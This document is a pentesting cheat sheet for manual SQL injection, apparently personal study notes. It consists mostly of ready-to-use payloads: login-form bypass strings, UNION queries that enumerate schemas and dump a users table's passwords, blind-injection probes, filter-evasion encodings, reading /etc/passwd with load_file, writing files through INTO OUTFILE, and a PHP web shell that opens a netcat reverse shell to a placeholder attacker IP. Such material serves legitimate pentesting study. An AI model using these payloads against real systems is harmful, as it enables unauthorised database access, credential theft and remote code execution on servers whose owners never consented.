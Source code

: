 ```yaml
---
title: SQLi Cheat sheet for manual injection
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting
---
```


# SQLi Cheat sheet for manual injection

See a more detailed [explanation about SQL injection](sql-injection.md).


### Manual UNION attack

```
# 0. Comments 
--comment       // Oracle
--comment       // Microsoft
/*comment*      // Microsoft
--comment       // PostgreSQL
/*comment*/     // PostgreSQL
#comment        // MySQL
-- comment      // MySQL [Note the space after the double dash]
/*comment*/     // MySQL

   
# 1. Bypass a form      
1' OR '1'='1';#
' OR '1'='1';#
1' OR '1'='1';-- - 
' OR '1'='1';-- -  


# 2. Number of columns (UNION attack)
1' OR '1'='1' order by 1;#
1' OR '1'='1' order by 2;#
1' OR '1'='1' order by 3;#
...
# Do this until you get an error message and then you will know the number of columns
# Another method to see the number of columns. 
' OR '1'='1' order by 1;-- -   

# 3. Get which column is being displayed. For instance, when we know we have 6 columns:
1' OR '1'='1' UNION SELECT all 1,2,3,4,5,6;# 

# 4. Get names of all databases 
1' OR '1'='1' UNION SELECT null,table_schema,null,null,null,null,null FROM information_schema.tables;#

# 5. Get names of all tables from the selected database
1' OR '1'='1' UNION SELECT null,table_name,null,null,null,null FROM information_schema.tables;# 


# 6. Get the name of all columns of a selected table from a selected database
1' OR '1'='1' UNION SELECT null,column_name,null,null,null,null FROM information_schema.columns WHERE table_name='users';#


# 7. Get the value of a selected column (for instance, password)
1' OR '1'='1' UNION SELECT null,passwords,null,null,null,null FROM users;#
```


Also, once we know which column is injectable, there are some php functions that can provide us some worthy knowing data:

```
database()
user()
version()
```

And here an example of how to retrieve them:

```
# if injectable columns are number 2, 3 and 4 you can display some info from the system
union select 1, database(),user(),version(),5

# Extra bonus
# You can also load a file from the system with
union select 1, load_file(/etc/passwd),3,4,5

# and you can try to write to a file in the server
union select 1,'example example',3,4,5 into outfile '/var/www/path/to/file.txt'
union select 1,'example example',3,4,5 into outfile '/tmp/file.txt'

# and we can combine that with a reverse shell like
union select 1,'<?passthru("nc -e /bin/sh <attacker IP> <attacker port>") ?>', 3,4,5 into outfile '/tmp/reverse.php'

```


### Manual SQLi Blind attack

user() returns the name of the user currently using the database.
substring() returns a substring of the given argument. It takes three parameters: the input string, the position of the substring and its length.

```
' OR substring(user(), 1, 1) = 'a
' OR substring(user(), 1, 1) = 'b
1' AND SUBSTRING(user(), 1, 1 = 'r') sleep(0), sleep(10));#
```


### Extra Bonus: Bypassing quotation marks

Sometimes quotation marks get filtered in SQL queries. To bypass that when querying some tablename, maybe we can skip quotation marks by entering tablename directly in HEX values.

More bypassing tips:

```
# Using mingled upper and lowercase

# Using spaces url encoded
+

# Using comments
/**/
/**
--
; --
; /*
; //

# Example of bypassing webpages that only displays one value at a time
1'+uNioN/**/sEleCt/**/table_name,2+fROm+information_schema.tables+where+table_schema?'dvwa'+limit+1,1%23&Submit=Submit#

```
